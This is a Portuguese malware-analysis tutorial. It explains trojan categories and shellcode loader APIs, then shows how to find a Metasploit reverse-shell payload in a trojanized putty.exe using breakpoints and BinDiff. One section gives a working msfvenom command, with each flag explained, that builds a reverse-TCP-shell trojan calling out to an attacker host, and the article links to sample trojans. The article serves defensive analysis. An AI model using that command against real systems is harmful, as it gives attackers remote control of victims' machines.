> **********************************************************************************************************
> Escrito por: Mateus Gualberto (Midnight Reverser) - **orgulho de escrever sem IA envolvida no processo!**
> 
> Licença: livre, como todo conhecimento deve ser.
> **********************************************************************************************************

# Introdução

Nesse artigo, irei demonstrar algumas técnicas para identificação de trojans - em especial, focado nas técnicas comumente utilizadas pelo [Metasploit Framework](https://github.com/rapid7/metasploit-framework). Ao fim, é esperado que o leitor aprenda o que é um trojan, seu funcionamento, trojans comuns, e por fim como identificar e localizar a carga maliciosa de um software adulterado.

Caso o leitor deseje seguir a prática explicada nesse artigo, é necessário cumprir os seguintes pré-requisitos:

- Computador com o [Ghidra](https://ghidra-sre.org) mais recente (necessário ter java instalado);
- [BinDiff](https://github.com/google/bindiff) e plugin [BinExport](https://github.com/google/binexport) para o Ghidra;
- Download do arquivo infectado e do original, a serem analisados na seção [Detectando localização de trojans com BinDiff](#detectando-localização-de-trojans-com-bindiff) - disponíveis [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/malware-analysis-0x00).

> Quaisquer arquivos comprimidos que necessitam de senha, digite `infected`

<br>
<br>

# O que é um trojan

Um trojan, ou cavalo de troia, é um malware que ludibria o usuário a executá-lo fazendo-o pensar que é um software legítimo, mas na realidade é um programa que contém código malicioso que roda em background. Esse termo também pode ser utilizado para classificar as cargas maliciosas que esses arquivos infectados executam. Nesse artigo, utilizaremos o termo trojan tanto para identificar os arquivos infectados - os "containeres" que carregam a carga maliciosa - quanto elas próprias. Os malwares que os programas adulterados carregam muitas vezes são *backdoors* ou *RATs*, que permitem conexão com servidores do atacante e execução remota de comandos.

Muitas vezes, as cargas maliciosas de um trojan estão contidas em um executável conhecido e legítimo (Figura 0x00). Nesses casos, quando o usuário inicia o trojan, sua carga maliciosa é executada de forma silenciosa, até mesmo permitindo o funcionamento normal do programa legítimo. Isso permite um sucesso maior na infecção e na reinfecção do alvo - afinal,  é só reexecutar o EXE para se reinfectar. Esse é o caso que construí e que analisaremos ao longo desse artigo.




*Figura 0x00 - Exemplo de putty.exe trojanizado com backdoor.*

<br>
<br>

Outras infecções se dão por conta de *malspam* e *phishing*, através de documentos infectados. Documentos do pacote Microsoft Office são os mais utilizados para esse tipo de ataque, em especial os tipos introduzidos antes do Microsoft Office 2007: *DOC*, *XLS*, *PPT*.

Essa preferência não é por acaso: esses formatos permitem a execução de macros VBA - diferente dos formatos mais novos DOCX, XLSX e PPTX - fazendo com que esses tipos sejam facilmente infectados por threat actors, e enviados como *first stage loaders* em grandes campanhas de spam (Figura 0x01).


*Figura 0x01 - Exemplo de arquivo DOC trojanizado com backdoor.*

<br>
<br>

Medidas da Microsoft, como impedir a execução macros por padrão ao abrir um arquivo e só permitir caso o usuário realmente deseje executá-las, dificultam a infecção por parte dos threat actors (Figura 0x02). Os *maldocs* dos atacantes tiveram que mudar para enfrentar esse tipo de proteção, empregando técnicas de phishing e engenharia social para que as macros fossem habilitadas, como é o caso do trojan Emotet (Figura 0x03).



*Figura 0x02 - medidas aplicadas pela Microsoft para evitar a execução automática de macros em documentos.*




*Figura 0x03 - documento malicioso do trojan Emotet, utilizando técnicas de persuasão da vítima. Fonte: https://unit42.paloaltonetworks.com/wireshark-tutorial-emotet-infection/*

<br>
<br>

Trojans  ainda são prevalentes em sites de download alternativos e de softwares piratas, com uma grande taxa de sucesso devido à instrução de muitas dessas fontes para que seus usuários desativem os seus antivírus. Sem pelo menos uma análise superficial estática e dinâmica, qualquer software obtido nesses sites deve ser tratato com suspeita e precaução.

Devido ao seu potencial de infecção silenciosa e conexão com C2, threat actors criaram um mercado de *Malware-as-a-Service*, servindo seus trojans como meio de infecção para outros malwares, e criando um mercado de venda de credenciais (Figura 0x04). Dessa forma, um mesmo trojan pode realizar o deploy de vários outros malwares no ambiente, aumentando a criticidade e o impacto de uma infecção por tais artefatos.



*Figura 0x04 - mercado de logs de stealer no Telegram.*

<br>
<br>

## Tipos de trojans

De acordo com suas características, os trojans podem ser classificados em diversas categorias. Algumas delas estão listadas abaixo:

### Loader
Esse tipo de trojan carrega e executa outros malwares em memória. Geralmente sua carga maliciosa está ofuscada de alguma forma, e a desofuscação é um passo necessário antes da execução. Para isso, são feitas alocações de memória dinâmica (heap), desofuscação e cópia do malware para essa localização, e finalmente a execução. Informações mais técnicas estão disponíveis na seção [Identificando trojans através de APIs específicas](#identificando-trojans-através-de-apis-específicas).

Um exemplo de um trojan desse tipo está exemplificado [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/ShellcodeExecutor) (Figura 0x05).



*Figura 0x05 - trojan loader de autoinjeção e com as principais APIs utilizadas destacadas.*
<br>
<br>

### Downloader
Os downloaders são trojans semelhantes aos loaders, com a diferença que sua carga maliciosa é obtida via Internet, a partir de endereços C2. Funções da `Ws2_32.dll` (WSAStartup, WSAConnect e afins) e `wininet.dll` (`InternetOpen`, `InternetOpenUrlA`, etc) são comumente encontradas nesse tipo de trojan.

*Indicadores de comprometimento* (IoCs) comuns em downloaders incluem IPs e domínios pertencentes aos atacantes. Para evadir detecção e bloqueios, atacantes recorrem ao uso de listas dinâmicas de IPs/domínios obtidas por C2/serviços web de boa reputação, ou usam *Domain Generation Algorithms* (DGAs), que geram milhares de domínios a partir de uma seed e um algoritmo pseudoaleatório - permitindo ao atacante sempre gerar um novo domínio, registrá-lo e continuar o ataque (Figura 0x06). Mais sobre DGAs [nesse artigo da Akamai](https://www.akamai.com/glossary/what-are-dgas).



*Figura 0x06 - exemplo de execução de algoritmo DGA utilizado pelo trojan Ramnit. Fonte: https://raw.githubusercontent.com/baderj/domain_generation_algorithms/refs/heads/master/ramnit/dga.py*
<br>
<br>


### Backdoors/Shell/RATs
Provavelmente é o tipo mais conhecido de trojans, em que um aplicativo infectado dá acesso ao computador da vítima ao ser executado pelo usuário. Essa conexão pode ser direta ou reversa, utilizar TCP/UDP, HTTP/HTTPS, entre outros protocolos. Eles dão acesso ao sistema infectado sem necessidade de reinfecção posterior, devido a suas capacidades de elevação de privilégios e persistência local (Figura 0x07).



*Figura 0x07 - execução de uma shell do Metasploit Framework.*

Sobre as terminologias:

- Backdoors têm esse nome por serem malwares que dão acesso ao sistema infectado mesmo se a fonte inicial de infecção (uma exploração de vulnerabilidades, a execução do usuário) for corrigida e não puder ser utilizada novamente. Isso é possível através da comunicação remota e persistente com um servidor C2 do atacante;
- Shells são malwares que proveem uma interface de linha de comando para o atacante, permitindo a execução remota de códigos através do *bash*, *sh*, *cmd* ou *powershell*, por exemplo;
- *Remote Access Tools* ou RATs, podem ser softwares legítimos (como AnyDesk, TeamViewer) ou não (njRAT, Remcos RAT), que proveem uma interface e comandos mais avançados que uma simples shell - contando com uma conexão gráfica remota, caso o host vítima permita, ferramentas para download/upload de arquivos, entre outras funcionalidades. São softwares complexos e com alto impacto na confidencialidade/integridade das informações dos computadores infectados (Figura 0x08).




*Figura 0x08 - exemplo da execução do Quasar, um RAT opensource para Windows. Fonte: https://github.com/quasar/Quasar*

<br>
<br>

### Keylogger/Screenlogger
Trojans keylogger capturam eventos do teclado e screenloggers capturam imagens da tela e enviam para o atacante. Senhas, dados pessoais e qualquer interação com o teclado ou a tela do computador podem ser vistos pelos atacantes, resultando em impactos significativos a individuais e a infraestruturas de negócio (Figura 0x09).

Funções que permitem realizar hooks em outras aplicações, como `SetWindowsHookExA` da `user32.dll` são comumente encontradas nesse tipo de malware.



*Figura 0x09 - arquivo de log de teclas gerado por um keylogger. Fonte: https://en.wikipedia.org/wiki/Keystroke_logging*

<br>
<br>

### InformationStealer
Mais conhecidos pelos exemplares *Azorult* e *Lumma Stealer*, são malwares que focam em roubar informações do usuário das mais variadas fontes disponíveis - senhas salvas em navegadores, cookies de autenticação e outros tipos de informações pessoais. Esse tipo de trojan é um dos mais utilizados como *Malware-as-a-Service* (MaaS) para venda de credenciais e informações pessoais (Figura 0x0A).



*Figura 0x0A - exemplo de logs do Redline information stealer. Fonte: https://www.zerofox.com/blog/an-introduction-to-stealer-logs/*

<br>
<br>


### Banking
Trojans bancários, como o *Astaroth/Guildma*, *Amavaldo*, *IcedID* e tantos outros focam em coletar credenciais bancárias e modificar páginas web ou realizar hook de transações em aplicativos de banco para mudar o fluxo das transações para contas dos atacantes.

As variantes latinoamericanas observadas na última década são extremamente ofuscadas, contando com múltiplos estágios, e na maioria das vezes escritas em Delphi. Uma análise detalhada da ESET do Amavaldo, de cinco anos atrás, pode ser encontrada [nesse link](https://www.welivesecurity.com/2019/08/01/banking-trojans-amavaldo/).

<br>
<br>


### Criptominer
Esse tipo de malware realiza o deploy de mineradores de criptomoeadas, como o [XMRig](https://github.com/xmrig/xmrig), sugando a maior parte dos recursos da máquina alvo com objetivo de minerar moedas. Pode ser detectado devido ao alto uso de CPU/memória nos computadores infectados.


> É importante notar que, apesar das classificações acima, na prática vários trojans reais se enquadram em mais de uma classificação.

<br>
<br>

## O que é um payload/shellcode

Payloads são uma sequência de instruções, geralmente a nível de código de máquina, utilizados em exploits e infecções como uma carga maliciosa que deseja-se executar na vítima. Shellcode, inicialmente, era um payload que executava um malware do tipo *shell*, que resultava em uma conexão direta ou reversa com o alvo para executar comandos. Entretanto, hoje em dia muitas vezes esses termos são usados de forma intercambiável - executar uma shell é um procedimento padrão e muito buscado durante a execução remota de códigos.

Além disso, shellcodes/payloads não necessitam de estar em um endereçamento específico da memória para funcionarem, podendo serem injetados no mesmo processo ou em processos remotos. Toda API de biblioteca externa necessita de resolução via runtime linking (conceito explicado [nesse artigo](https://blog.midnighthackings.com/posts/base-0x00/#runtime-linking-run-time-dynamic-linking)). Por esse motivo, muitos deles aplicam a técnica de API Hashing para dificultar a análise.

Trojans gerados por frameworks de segurança ofensiva, como o Metasploit e o Cobalt Strike, têm opção de serem gerados em formato de shellcode e combinados em um executável template. Essa abordagem visa enganar as vítimas em executar um software legítimo, mas que em algum momento irá chamar o shellcode e trazer uma conexão para o atacante.

Para gerar um trojan x86 no metasploit e infectar um executável como o [putty original](https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe), podemos executar o seguinte comando:

```sh
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=1337 -f exe -x putty.exe -k -o putty_infected.exe
```

No qual:

- *-p* -> seleciona o payload para infecção *windows/shell_reverse_tcp* (shell reversa, via TCP, para windows x86, sem estágio - todo o payload estará no binário final);
- *LHOST* -> IP do C2 do atacante;
- *LPORT* -> porta utilizada para conexão ao C2;
- *-f* -> formato a ser gerado a shell - no caso, queremos um EXE ao final;
- *-x* -> seleciona um executável para template, que será transformado em um trojan;
- *-k* -> informa ao framework que o trojan deve funcionar como o software legítimo;
- *-o* -> especifica o nome do trojan gerado.

> Lembrando ao leitor que, caso deseje os exatos artefatos que iremos analisar nas seguintes seções, o link está disponível na seção [Introdução](#introdução).

<br>
<br>

# Técnicas de detecção de trojans

Nessa seção, vamos estudar algumas técnicas para detecção de trojans, focando em trojans backdoor. Analisaremos o caso de uma infecção do putty como prática dos conceitos estudados.

## Identificando trojans através de APIs específicas

Um shellcode ofuscado reside na memória, geralmente em uma seção de dados, quando armazenado de forma global, ou na stack, quando armazenado no escopo de uma função. Em ambos os casos, não há permissão de execução por padrão - exceto no caso da stack em binários sem bit no-execute (NX - Linux) ou sistemas Windows com *Data Execution Prevention* (DEP) desabilitado ou modificado para aquele binário em específico.

Nesse caso, é necessário alocar na heap o shellcode, em uma região da memória que deverá ser possível realizar operações de leitura, escrita e execução em algum momento. Isso é feito através de algumas APIs em específico:

- `VirtualAlloc`
- `VirtualAllocEx`
- `VirtualProtect`

> VirtualProtect não aloca memória, mas muda suas permissões - uma memória que era RW pode se tornar RWX!

Após isso, é realizada a cópia/desofuscação em memória do shellcode para o espaço na heap criado por essas APIs. Essa cópia pode se dar com *memcpy*, *RtlMoveMemory* ou um simples loop sem nenhuma chamada de API. Nessa fase, também, caso haja injeção remota, são chamadas APIs para escrever o shellcode no processo remoto, como *WriteProcessMemory*.

Por fim, o payload precisa ser executado de alguma forma. As técnicas clássicas envolvem o uso de APIs como:

- `CreateThread`
- `CreateRemoteThread`
- `ResumeThread`

Porém, note que a API utilizada para executar o shellcode no caso X pode ser diferente da utilizada no caso Y. Isso se deve à evolução das técnicas de injeção e execução de shellcode ao longo do tempo. Por exemplo, no caso da injeção via [*Asynchronous Procedure Calls* (APC)](https://blog.midnighthackings.com/posts/maldev-0x00/#apc-injection-cl%C3%A1ssico), a API *QueueUserAPC*, que realiza o enfileiramento do shellcode na APC do processo remoto, é a última chamada no injetor antes da infecção efetiva do processo remoto. 

<br>
<br>

### A ideia para identificação

Com base no que foi citado acima, a ideia principal para localização do shellcode é realizar um breakpoint de software nas funções de alocação de memória (*VirtualAlloc*, por exemplo), executá-las e pegar no registrador EAX (retorno) o endereço da memória alocada. A partir daí, deve segui-las em um dump de memória, e seguir a execução do código normalmente.

Em algum momento, um dos dumps de memória seguidos deve dar origem a opcodes válidos, como `FC` e `E8`. Uma boa experiência na tratativa desse tipo de malware pode ajudar a identificar mais facilmente esse tipo de situação. A partir daí, é realizar o dump da localização de memória via debugger ou ferramenta de monitoramento de processos (Process Explorer, Process Hacker) e começar a análise do shellcode em si.

Mas e como descobrir que todas as operações em memória foram realizadas no shellcode (como desofuscação)? Continuando atentamente o processo de debugging e colocando um breakpoint de hardware na escrita/execução (no caso de autoinjeção) ou em funções que podem executar/escrever o shellcode (*RtlMoveMemory*, *WriteProcessMemory*, *memcpy*, etc). Funções como *CreateThread*, *CreateRemoteThread* também trazem a informação de qual endereço do primeiro byte que deve ser executado pela thread criada. Essas técnicas podem ajudar a descobrir quando o processamento do payload está finalizado. 

> Note que, a identificação e dump não significa que todo o payload está desofuscado: pode haver rotinas de reescrita/descompressão/descriptografia de código no próprio shellcode.

<br>
<br>

#### Exemplo: ShellcodeExecutor

O trojan loader que produzi, que está [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/ShellcodeExecutor), por exemplo, contém um shellcode altamente ofuscado, mas que pode ser isolado facilmente utilizando a técnica explicada (BP no *VirtualAlloc* e no *CreateThread*).

O breakpoint no VirtualAlloc nos traz um endereço alocado na heap com as permissões de leitura, escrita e execução - o que nos deixa suspeitos sobre ela (Figuras 0x0B e 0x0C).



*Figura 0x0B - memória alocada com VIrtualAlloc seguida no dump.*



*Figura 0x0C - memória alocada pelo VirtualAlloc é RWX.*

<br>
<br>


Seguindo no dump e executando até o *CreateThread*, é possível perceber que o espaço alocado, anteriormente vazio, agora está preenchido de bytes (Figura 0x0D). Analisando no disassembler, é possível verificar instruções iniciais e um loop de desofuscação dos bytes seguintes (Figura 0x0E). Esses bytes válidos e a rotina de desofuscação também válida nos permite provar que esse é o nosso shellcode! 



*Figura 0x0D - shellcode no dump antes de criar a thread de execução.*



*Figura 0x0E - shellcode no disassembler após desofuscação inicial; apenas alguns step intos e executando todo o primeiro loop à exaustão*

<br>
<br>

## Detectando localização de trojans com BinDiff

Essa técnica agiliza a análise realizada em um executável trojanizado, caso o analista tenha acesso o software legítimo. Dependendo do binário, múltiplas técnicas de binary diffing podem ser empregadas - falaremos mais delas na análise do putty infectado, citado na [Introdução](#introdução) desse artigo.

### Mas afinal, o que é BinDiff?

Binary diffing referem-se a algoritmos e ferramentas utilizadas para comparar diferenças entre dois arquivos binários - como EXEs, DLLs, entre outros. Essas diferenças podem ser uma simples alteração de instruções, inclusão/exclusão de rotinas inteiras ou mudança de fluxo dentro de uma função, entre outros tipos de mudanças.

BinDiff é uma ferramenta, atualmente opensource, que compara dois binários com diversos algoritmos. É possível checar por similaridade de funções, funções incluídas/excluídas entre um e outro binário, obter estatísticas (quantidade de funções, jumps, instruções etc). Para utilizá-la, é necessário exportar os binários no formato *.BinDiff* - algo que pode ser feito pelo plugin binexport.

Além de auxiliar na análise de malware, algoritmos de binary diffing podem ajudar na aplicação de patches, busca de vulnerabilidades em softwares mais antigos, entre outros usos.

### Análise do putty infectado com BinDiff

Vamos à análise do putty infectado, disponível [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/malware-analysis-0x00).

Para essa técnica, é necessário a instalação do [Ghidra](https://ghidra-sre.org), para análise inicial e disassembly das instruções, [BinExport para Ghidra](https://github.com/google/binexport/releases/tag/v12-20240417-ghidra_11.0.3), para gerar os arquivos de BinDiff a serem comparados, e o próprio software [BinDiff](https://github.com/google/bindiff), que irá comparar os arquivos gerados pelo plugin do BinExport.

Primeiramente, vamos analisar os binários - adicionar um projeto no ghidra, importar os dois EXEs, realizar a análise automatizada inicial do EXE e salvar - o cotidiano de um analista de malware.

Após a instalação do BinExport e reinício do Ghidra, há a opção de exportar os binários via clique secundário (Figura 0x0F). Caso o BinExport tenha sido corretamente instalado, aparecerá o formato "Binary BinExport (v2) for BinDiff", e é esse o export que queremos.

> Nota: realize esse processo apenas quando os binários já tiverem sido analisados pelo ghidra. 



*Figura 0x0F - exportação dos arquivos BinDiff referentes ao arquivo legítimo e ao infectado via Ghidra, pós análise automatizada.*

<br>
<br>
Já no BinDiff, vamos criar um novo workspace e realizar a importação de um novo Diff: o primeiro sendo o binário legítimo (putty.exe) e o segundo o trojan (putty_infected.exe) (Figura 0x10). Após a importação, ao clicar duas vezes no Diff criado trará diversas informações sobre as diferenças entre os binários (Figura 0x11).



*Figura 0x10 - importação dos artefatos gerados pelo Ghidra no software BinDiff.*



*Figura 0x11 - análises disponíveis via software BinDiff para o caso analisado.*

<br>
<br>
Nesse ponto, várias técnicas podem ser empregadas para localizar a carga maliciosa: analisar as funções que estão presentes apenas no binário infectado, analisar o fluxo de chamadas, etc. No caso do putty, vamos primeiro verificar as funções que estão presentes em ambos os binários (Matched Functions).

Uma análise importante a ser realizada é a de similaridade entre funções. Uma similaridade de 100% não nos interessa, pois a função não foi adulterada. Já uma similaridade média ou alta pode pode indicar uma adulteração, então essas funções devem ser analisadas atentamente.

No caso do putty, temos apenas uma função com similaridade diferente de 100%, para a nossa sorte (Figura 0x12). Essa função é o entrypoint do binário, local comum de infecção para trojans. Clicando duas vezes na função, obtemos o seguinte gráfico e disassembly:



*Figura 0x12 - única função com similaridade diferente de 100% nas funções presentes em ambos os binários.*
<br>
<br>

Note que o entrypoint do binário legítimo contém apenas duas instruções, enquanto que o entrypoint do binário infectado traz bem mais instruções, além de chamadas para funções suspeitas - *CreateThread* - (Figura 0x13).



*Figura 0x13 - diferença do entrypoint do putty.exe (à esquerda) e do putty_infected.exe (à direita).*
<br>
<br>

Ao verificar a localização do código que rodará em uma nova thread (`0x573047`) via Ghidra, é possível perceber a execução de algumas instruções comumente vistas em shellcode (CLD, CALL aparentemente sem parâmetros ou sem *caling convention* definida) (Figura 0x14).

O endereço `0x5730d5` é chamado pela CALL, redirecionando a execução para uma estrutura claramente relacionada a shellcode - push de valores semelhantes a API hashing, chamada de funções a partir de endereços em registradores, ausência de chamada para APIs de DLLs a partir de *dynamic linking*, entre outros indicadores (Figura 0x15).



*Figura 0x14 - início da função executada via CreateThread (`0x573047`).*



*Figura 0x15 - código a ser executado posteriormente na mesma thread criada - o próprio shellcode (`0x5730d5`).*

<br>
<br>
Voltando ao BinDiff, também seria possível identificar parte do shellcode através das funções que estão presentes apenas no binário infectado - outra forma de encontrar tais cargas maliciosas (Figura 0x16).


*Figura 0x16 - identificação do shellcode via funções existentes apenas no binário infectado, no software BinDiff.*

Dessa forma, conseguimos encontrar o shellcode e evidênciá-lo em um reporte de análise/pesquisa de malwares.

<br>
<br>

# Conclusão

Nesse artigo, foi explicado o que era um trojan, seus tipos e cargas maliciosas executadas no computador-vítima e técnicas de detecção, identificação e localização da carga maliciosa desses malwares - em especial, para as técnicas de infecção empregadas pelo Metasploit Framework.

No próximo artigo, analisaremos os shellcodes resultantes desses tipos de malware, através de técnicas de análise de malwares.
